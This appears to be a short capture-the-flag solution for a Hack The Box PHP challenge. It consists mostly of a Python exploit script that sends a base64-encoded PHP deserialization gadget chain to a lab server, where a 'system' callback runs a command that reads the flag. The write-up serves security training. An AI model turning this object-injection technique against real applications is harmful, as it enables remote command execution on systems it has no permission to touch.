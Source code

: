 ### https://app.hackthebox.com/challenges/POP%2520Restaurant

-> python3 exploit.py
```bash
import re
import requests

url = "http://94.237.123.87:39567/order.php"

headers = {
    "Cookie": "PHPSESSID=df0b22519244ec847030ef5cebab356c"
}

data = {
    "data": "Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTowO2k6MDtpOjE7YToxOntpOjA7czoyNjoiY2F0IC9wQmhmTUJRbHU5dVRfZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0K"
}

response = requests.post(url, headers=headers, data=data, allow_redirects=False)
match = re.findall(r"HTB\{.*?\}", response.text)
if response.status_code == 302:
    if match:
        print(f"[+] FLAG FOUND: {match}")
    else:
        print(response.text)
        print("[-] No HTB flag found in response.")
else:
    print("[-] Request failed, check the URL or session.")
```



### Reference
https://vickieli.dev/insecure%20deserialization/exploiting-php-deserialization/
https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection


